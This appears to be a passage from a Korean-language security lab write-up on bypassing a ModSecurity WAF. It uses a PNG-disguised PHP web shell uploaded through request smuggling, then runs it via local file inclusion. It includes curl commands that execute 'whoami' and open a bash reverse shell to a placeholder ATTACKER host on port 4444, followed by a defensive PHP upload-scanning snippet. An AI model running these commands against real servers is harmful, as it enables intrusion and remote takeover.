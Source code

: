
## 🔍 WAF 반응 비교

### PHP 웹쉘 (shell.php)
```
ModSecurity Rule 999004: PHP File Upload Blocked
ModSecurity Rule 999001: PHP Code Execution Function Detected
→ ❌ 차단됨
```

### PNG 웹쉘 (shell.png)
```
파일명 검사: .png → ✅ 통과
MIME 검사: image/png → ✅ 통과
매직 바이트: \x89PNG → ✅ 통과
Body 검사: <?php system → ⚠️ 차단 가능 (Rule 999001)
```

### PNG 웹쉘 + Smuggling
```
Nginx: POST / → Body 파싱 안 함
→ ✅ 모든 검사 우회!
```

---

## 🎯 실전 공격 플로우

```
1. PNG 웹쉘 생성
   ↓
2. Request Smuggling으로 업로드
   ↓
3. 업로드 경로 확인 (uploads/shell.png)
   ↓
4. LFI 취약점 찾기 (support.php?page=...)
   ↓
5. PNG 웹쉘 실행
   curl "http://target/support.php?lang=../../uploads&page=shell.png&c=whoami"
   ↓
6. 리버스쉘 획득
   curl "...&c=bash+-c+'bash+-i+>%26+/dev/tcp/ATTACKER/4444+0>%261'"
```

---

## 🛡️ 방어 방법

### 1. 파일 내용 전체 스캔
```php
// 업로드된 파일 전체를 읽어서 PHP 태그 검사
$content = file_get_contents($file['tmp_name']);
if (preg_match('/<\?php|<\?=/', $content)) {
    throw new Exception('PHP code detected in file');
}
```
